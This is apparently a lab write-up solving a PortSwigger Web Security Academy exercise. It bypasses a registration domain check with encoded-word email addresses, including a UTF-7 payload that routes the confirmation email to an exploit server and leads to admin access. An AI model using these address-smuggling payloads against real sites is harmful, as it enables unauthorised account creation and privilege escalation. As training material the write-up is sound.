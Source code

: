 ## Labs Covered

This write-up focuses on the following **EXPERT-level lab** from the PortSwigger Web Security Academy:

- **Bypassing access controls using email address parsing discrepancies**  
  This lab demonstrates how discrepancies in email address parsing between different components of an application can be exploited to bypass access controls.

---

## LAB 1 - Bypassing access controls using email address parsing discrepancies

### Lab Description :


### Solution :

### Identify the registration restriction:

- Navigate to the lab environment provided in the exercise.
- Click on the **Register** button to open the account registration form.
- Use the following email during registration:

  ![image](https://github.com/user-attachments/assets/4b951f0a-1285-4c25-979d-6515e06d4e7f)


Notice that the application blocks the request and displays an error message stating that the email domain must be **ginandjuice.shop**. This indicates the server enforces a **domain check** during registration

![image](https://github.com/user-attachments/assets/9f716ab5-9a40-4b5d-a06d-eeb138e9abba)



### Investigate encoding discrepancies:
Try to register an account with the following email:
`?iso-8859-1?q?=61=62=63?=foo@ginandjuice.shop`
This is the email abcfoo@ginandjuice.shop, with the abc portion encoded using Q encoding, which is part of the "encoded-word" standard.

![image](https://github.com/user-attachments/assets/f3ea9037-2719-4b51-9318-1fc891d50432)

Notice that the registration is blocked with the **error**: "Registration blocked for security reasons."

![image](https://github.com/user-attachments/assets/874874fd-6ec5-4d4f-950a-f06de78f213d)

Try to register an account with the following UTF-8 encoded email:
`=?utf-8?q?=61=62=63?=foo@ginandjuice.shop`

![image](https://github.com/user-attachments/assets/90f13037-623e-401b-ba1f-91b0886d5a51)

Try to register an account with the following UTF-7 encoded email:
`=?utf-7?q?&AGEAYgBj-?=foo@ginandjuice.shop`


![image](https://github.com/user-attachments/assets/c564e3f4-4201-488c-bfdf-3fd0eb3ebc92)


### Email register succesfully with UTF-7 encoding:

Notice that this attempt doesn't trigger an error. This suggests that the server doesn't recognize **UTF-7 encoding** as a security threat. Because **UTF-7** encoding appears to bypass the server's validation, you may be able to use it to craft an attack that tricks the server into sending a confirmation email to your exploit server email address while appearing to still satisfy the ginandjuice.shop domain requirement

![image](https://github.com/user-attachments/assets/b8313172-6b4a-4355-ab54-1fc674ba3e88)

### Exploit the vulnerability using UTF-7:


Payload = `?utf-7?q?hanzala&AEA-exploit-0ac00054036ef89280a82557012f00a4.exploit-server.net&ACA-?=@ginandjuice.shop`

### Decoding the Components:

  **1. UTF-7 Encoding:** 
		○ The AEA- and ACA- parts are used to encode special characters. In this case, they represent the characters @ and spaces.
	**2. Decoded Email:** *
		○ When you decode the entire string, you get: ` attacker@[YOUR-EXPLOIT-SERVER_ID]@ginandjuice.shop`


![image](https://github.com/user-attachments/assets/2c725012-c8c3-4e63-a567-e3385f7f9a89)

Click **Email client**. Notice that you have been sent a registration validation email. This isbecause the encoded email address has passed validation due to the `@ginandjuice.shop` portion at the end, but the email server has interpreted the registration email as **attacker@[YOUR-EXPLOIT-SERVER-ID].**

1 Click the confirmation link to activate the account.

![image](https://github.com/user-attachments/assets/83237f92-1f39-4e3c-94fe-89c15eaf4ab2)


Login after Registration successfully.

![image](https://github.com/user-attachments/assets/155f3fc1-4472-4187-9073-a415139fbc61)

### Gain admin access:
  1. Click **My account** and log in using the details you registered.
  2. Click **Admin panel** to access the list of users

![image](https://github.com/user-attachments/assets/44ba259b-7b6d-4ac7-a568-e48073a255fa)

Delete the carlos user to solve the lab.

![image](https://github.com/user-attachments/assets/14545807-a920-4994-a239-f074aa3eee36)




